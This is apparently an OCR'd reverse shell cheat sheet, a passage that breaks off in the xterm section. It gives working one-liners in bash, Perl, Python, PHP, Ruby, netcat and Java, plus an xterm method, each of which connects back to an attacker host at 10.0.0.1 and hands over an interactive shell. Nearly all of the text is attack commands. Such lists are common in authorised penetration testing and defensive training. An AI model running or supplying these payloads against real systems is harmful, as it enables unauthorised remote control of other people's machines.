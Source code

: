 	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    PERL

	Here’s a shorter, feature-free version of the perl-reverse-shell:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

	There’s also an alternative PERL revere shell here.
Python

	This was tested under Linux / Python 2.7:
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

   PHP

	This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

	If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
  Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  Netcat

	Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

	nc -e /bin/sh 10.0.0.1 1234

	If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

   Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

	[Untested submission from anonymous reader]
   xterm

	One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

	To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
